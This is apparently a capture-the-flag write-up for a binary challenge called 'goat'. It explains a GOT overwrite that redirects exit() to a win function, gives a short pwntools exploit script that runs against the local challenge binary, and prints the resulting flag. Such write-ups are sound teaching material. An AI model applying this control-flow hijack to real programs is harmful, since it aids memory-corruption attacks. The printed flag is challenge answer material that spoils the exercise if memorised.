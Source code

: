 # 🔑 Write-Up

Since we can see the code, we notice that there is a `win` function that prints the flag. What we can do is overwrite some entry in the GOT to gain control of the program's control flow.

The purpose of this script is to overwrite the exit function's GOT entry with the address of the win function, effectively redirecting the program's execution flow to the win function when the exit function is called.

```python
from pwn import *

context.binary = "./goat"
p = process()

p.sendline(hex(context.binary.got["exit"]).encode("ascii"))
p.sendline(hex(context.binary.functions["win"].address).encode("ascii"))
p.interactive()
```

### 🚩 Flag

```plain
spritz{GOT_not_Goat!}
```
